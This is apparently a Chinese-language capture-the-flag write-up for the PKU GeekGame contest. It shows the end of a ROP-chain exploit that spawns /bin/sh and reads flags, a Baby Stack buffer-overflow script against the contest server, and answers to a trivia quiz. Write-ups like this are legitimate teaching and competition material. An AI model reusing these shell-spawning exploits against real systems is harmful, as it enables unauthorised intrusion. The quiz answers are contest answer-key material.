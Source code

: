 ```python
write_qword(0x08, POP_RAX_RET_OFFSET + global_offset)
write_qword(0x10, 59)
write_qword(0x18, POP_RDI_RET_OFFSET + global_offset)
write_qword(0x20, rbp + 0x50)
write_qword(0x28, POP_RSI_RET_OFFSET + global_offset)
write_qword(0x30, 0)
write_qword(0x38, POP_RDX_RET_OFFSET + global_offset)
write_qword(0x40, 0)
write_qword(0x48, SYSCALL_OFFSET + global_offset)
write_qword(0x50, BIN_SH_VALUE)

s.send(b'%02000lu\ncat flag*; exit\n')
while True:
    buf = s.recv(8192)
    if not buf: break
    print(buf)
```

上面的代码对地址中可能包含的换行符进行了排除，经过可能是多次的尝试后，flag1 和 flag2 就一起出来啦！



## 小北问答!!!!!

这些答案真的不好找呀！

（1）关键词检索得到 https://hpc.pku.edu.cn/_book/guide/slurm/slurm.html

（2）通过查阅互联网资料知，可以用 `make` 来看内核版本号，遂克隆对应分支，`make kernelversion` 得到

（3）谷歌翻得底朝天，出来了 https://gist.github.com/adamawolf/3048717#file-apple_mobile_device_types-txt-L185

（4）https://github.com/PKU-GeekGame/gs-backend/blob/master/src/store/user_profile_store.py#L72 天真地不相信 Python 版本差异，第二阶段提示版本后才用了 Python3.8 试试，果真有差别

（5）第二阶段学习使用了 web.archive.org，挂梯子后找到 https://web.archive.org/web/20110102140319/http://bilibili.us/video/game.html

（6）没有提示完全没想到是个会议，地方也似国内非国内 https://www.iaspworldconference.com/destination/social-events/



## Baby Stack

flag1 是 ICS 风格，整数溢出漏洞在开源代码里也是非常常见的。出题人非常大方地给了现成的开 /bin/sh 的 `system()`，不考虑善后的话只需要注入一个退回地址。

```python
import socket

s = socket.socket()
s.connect(('prob10.geekgame.pku.edu.cn', 10010))
print(s.recv(8192))
s.send(b'<my-token-not-visible-to-otherone>\n')
print(s.recv(8192))
s.send(b'0\n')
print(s.recv(8192))
s.send(b'0' * 120 + int(0x4011be).to_bytes(8, 'little') + b'\ncat flag\n')
print(s.recv(8192))
```
